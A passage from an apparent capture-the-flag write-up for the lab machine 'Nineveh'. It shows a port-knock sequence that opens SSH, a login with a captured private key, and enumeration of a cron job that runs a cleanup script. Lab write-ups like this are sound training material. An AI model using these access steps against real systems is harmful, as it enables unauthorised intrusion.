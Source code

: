 Let’s knock from our host:

```bash
knock 10.10.10.43 571 290 911

```

Now let’s check again:

```bash
nmap -p 22 10.10.10.43     
                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-07 12:03 BST
Nmap scan report for 10.10.10.43
Host is up (0.019s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds
```

Let’s login as amrois now with our private key:

```bash
chmod 600 nineveh.priv

ssh -i nineveh.priv amrois@10.10.10.43
```

We are sshed in:

![image.png]({{ site.baseurl }}/assets/nineveh/image%2018.png)

We still don’t know amrois’ password so we can’t list sudo privilege. No hidden files and we are not in a privileged group.

Checking our cron jobs:

```bash
crontab -l

*/10 * * * * /usr/sbin/report-reset.sh
```

Let’s see what this shell script is:

```bash
cat /usr/sbin/report-reset.sh

#!/bin/bash

rm -rf /report/*.txt
```

```bash
ls -l /usr/sbin/report-reset.sh

-rwxr-x--- 1 amrois amrois 34 Jul  2  2017 /usr/sbin/report-reset.sh
```
